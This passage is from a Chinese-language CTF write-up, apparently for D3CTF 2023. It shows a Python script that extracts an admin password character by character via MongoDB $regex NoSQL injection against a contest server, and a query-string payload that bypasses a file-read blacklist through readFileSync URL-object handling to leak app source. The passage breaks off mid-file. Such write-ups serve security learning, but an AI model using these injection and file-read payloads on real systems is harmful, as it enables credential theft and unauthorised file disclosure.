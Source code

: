 =>`DBPassword=d3ctf2023aw2obp8tincqw6od`

但是环境跑在Docker上，不知道MongoDB的端口（默认27017）有没有映射出去，就算映射出出去也不知道映射到哪个端口

NoSQL注入拿账号密码

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://47.102.98.112:31387/user/LoginIndex"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": "admin", "password": {"$regex": "^%s" }}' % (password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

得到密码`dob2xdriaqpytdyh6jo3`

hint2的黑名单绕过根据`readFileSync()`的特性

`filename[href]=a&filename[origin]=a&filename[protocol]=file:&filename[hostname]=&filename[pathname]=./%2561pp.js`

得到源码

```js
const express = require("express");
const bodyParser = require("body-parser");
const cookieParser = require("cookie-parser");
const session = require("express-session");
const stringRandom = require("string-random");
const path = require("path");

// register router
const indexRouter = require("./routes/index");
const userRouter = require("./routes/user");
const dashboardIndexRouter = require("./routes/dashboardIndex");

const app = express();
const PORT = 8080;

app.engine('html', require('hbs').__express);
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.use(bodyParser.urlencoded({ extended: true }));
app.use(bodyParser.json());
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'static')));

app.use(session({
    secret: stringRandom(32),
    resave: false,
    saveUninitialized: true,
    cookie: {
```